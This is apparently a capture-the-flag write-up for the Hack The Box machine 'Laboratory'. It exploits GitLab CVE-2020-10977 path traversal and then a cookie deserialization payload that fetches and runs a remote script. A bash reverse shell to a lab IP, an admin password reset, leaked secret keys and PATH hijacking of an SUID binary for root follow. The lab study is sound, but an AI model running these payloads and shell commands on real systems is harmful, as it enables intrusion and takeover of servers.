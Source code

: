 1, Recon
ports:
	22/tcp ssh
	80/tcp http `redirect to https://laboratory.htb/`
	443/tcp http `DNS:git.laboratory.htb`

In the original url `https://laboratory.htb/`, we could not find anything useful.

So let's come to `git.laboratory.htb`
Let's just register account and login and we can find a project from exploration.
![[Pasted image 20240902094754.png]]

Let's continue to enumerate the configs and source code.
```
CREDITS.txt

# Image Credits
All images courtesy of Unsplash (https://unsplash.com).
- Martin Grincevschi (https://unsplash.com/photos/uCnOENPOBxM)
- Pete Bellis (https://unsplash.com/photos/eDVQwVMLMgU)
- Ciprian Lipenschi (https://unsplash.com/photos/OULAwYI3AGs)
- Michael Dam (https://unsplash.com/photos/mEZ3PoFGs_k)
- rawpixel.com (https://unsplash.com/photos/izTZ-TtdwCs)
# Video Credits
Video courtesy of Coverr (http://coverr.co).
```

And we can find the version of GitLab in the url `https://git.laboratory.htb/help`
`# GitLab Community Edition [12.8.1]`
`Gitlab 12.9.0 - Arbitrary File Read (Authenticated)`
To exploit this vulnerability (CVE-2020-10977), I’ll need to create two projects:
![[Pasted image 20240902101826.png]]
Then go into proj1 and create an issue with markdown language image reference where the image is a directory traversal payload pointing to the file I want:
```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
```

After submitting that, expand the menu on the right side, and at the bottom of it I’ll find “Move issue”, where I can select proj2:
![[Pasted image 20240902101952.png]]
In the new issue, there’s a file linked at the top just under the issue name:
![[Pasted image 20240902102004.png]]
Then we can get the password file.

In searching for information about this exploit, I found this repo. The script is pretty slick:
https://github.com/thewhiteh4t/cve-2020-10977.git

In the script above, there’s a link to a HackerOne report, and while the report starts off as arbitrary read, the researcher finds how to convert that to code execution. I’ll start by reading /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml:
`https://hackerone.com/reports/827052`

```
# This file is managed by gitlab-ctl. Manual changes will be        
# erased! To change the contents below, edit /etc/gitlab/gitlab.rb  
# and run `sudo gitlab-ctl reconfigure`.                                         
production:                                                                         
  db_key_base: 627773a77f567a5853a5c6652018f3f6e41d04aa53ed1e0df33c66b04ef0c38b88f402e0e73ba7676e93f1e54e425f74d59528fb35b170a1b9d5ce620bc11838
  secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
  otp_key_base: db3432d6fa4c43e68bf7024f3c92fea4eeea1f6be1e6ebd6bb6e40e930f0933068810311dc9f0ec78196faa69e0aac01171d62f4e225d61e0b84263903fd06af
  openid_connect_signing_key: |                                                     
    -----BEGIN RSA PRIVATE KEY-----                                                 
    MIIJKQIBAAKCAgEA5LQnENotwu/SUAshZ9vacrnVeYXrYPJoxkaRc2Q3JpbRcZTu
    YxMJm2+5ZDzaDu5T4xLbcM0BshgOM8N3gMcogz0KUmMD3OGLt90vNBq8Wo/9cSyV
    RnBSnbCl0EzpFeeMBymR8aBm8sRpy7+n9VRawmjX9os25CmBBJB93NnZj8QFJxPt
...[snip]...
```

For the exploit to work, my payload will need to be created in an environment with the same secret_key_base.

```
curl -k "https://git.laboratory.htb/users/sign_in" --cookie "experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiYiNjb2Rpbmc6VVMtQVNDSUkKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBjdXJsIDEwLjEwLjE0LjY1OjgwL3NoIHwgYmFzaGAgKS50b19zKTsgX2VyYm91dAY6BkVGOg5AZW5jb2RpbmdJdToNRW5jb2RpbmcNVVMtQVNDSUkGOwpGOhNAZnJvemVuX3N0cmluZzA6DkBmaWxlbmFtZTA6DEBsaW5lbm9pADoMQG1ldGhvZDoLcmVzdWx0OglAdmFySSIMQHJlc3VsdAY7CkY6EEBkZXByZWNhdG9ySXU6H0FjdGl2ZVN1cHBvcnQ6OkRlcHJlY2F0aW9uAAY7ClQ=--dab2808d1a9cfde53d6b2579d76dc683dd992158"

```

Remember to make the `sh` and start the http service
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.8/443 0>&1
```

Then we get the shell of git.

It becomes clear very quickly that there’s not much here except for GitLab, and I’m in a Docker container:

There’s no users in /home.
Common binaries like ip, ifconfig, and netstat are not installed.
There’s a `/.dockerenv`file.

I can pull the local IP address from `/proc/net/fib_trie`:
```
Main:
  +-- 0.0.0.0/0 3 0 5
     |-- 0.0.0.0
        /0 universe UNICAST
     +-- 127.0.0.0/8 2 0 2
        +-- 127.0.0.0/31 1 0 0
           |-- 127.0.0.0
              /32 link BROADCAST
              /8 host LOCAL
           |-- 127.0.0.1
              /32 host LOCAL
        |-- 127.255.255.255
           /32 link BROADCAST
     +-- 172.17.0.0/16 2 0 2
        +-- 172.17.0.0/30 2 0 2
           |-- 172.17.0.0
              /32 link BROADCAST
              /16 link UNICAST
           |-- 172.17.0.2
              /32 host LOCAL
        |-- 172.17.255.255
           /32 link BROADCAST
```

I’ll start the console:
`gitlab-rails console`

I can list the users, and the admin users:
```
irb(main):001:0> User.active
User.active
User.active
=> #<ActiveRecord::Relation [#<User id:4 @seven>, #<User id:1 @dexter>, #<User 

id:5 @wither>]>
irb(main):002:0> User.admins
User.admins
User.admins
=> #<ActiveRecord::Relation [#<User id:1 @dexter>]>
```

Since dexter is the only admin, perhaps I could reset his password:
```
user = User.find(1)
user.password = '123456789'
user.password_confirmation = '123456789'
user.save!
```

We finally successfully login to the admin page and get the secret git project, and we can get the .ssh directory.
![[Pasted image 20240906113909.png]]

Then use the id_rsa, we successfully login.

3,shell as root
Looking at the SUID binaries on the box, one jumped out as something custom to this box:
```
root     dexter             16720 Aug 28  2020 /usr/local/bin/docker-security
root     messagebus         51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
These would be useful for us.

/usr/local/bin/docker-security is probably what was referenced in the todo.txt from the repo.

I could pull this binary back and reverse it in Ghidra, but given this is an easy-rated box, I’ll start with ltrace (which fortunately is installed on this box):

```
setuid(0)                                                                                                    = -1
setgid(0)                                                                                                    = -1
system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                       = 256
system("chmod 660 /var/run/docker.sock"chmod: changing permissions of '/var/run/docker.sock': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                       = 256
+++ exited (status 0) +++
```

The binary is calling system("chmod ..."). The important part here is that it isn’t using the full path to chmod. That is something I can exploit.

By using one of the Path-Hijacking Techniques, we can get root shell easily.
Make a file named chmod contains /bin/bash then give it execution permission with :
```
#!/bin/bash
/bin/bash
```

`chmod +x ./chmod`
`export PATH=$(pwd):$PATH`
`PATH=$(pwd):$PATH docker-security`

Then we can handle shell as root.
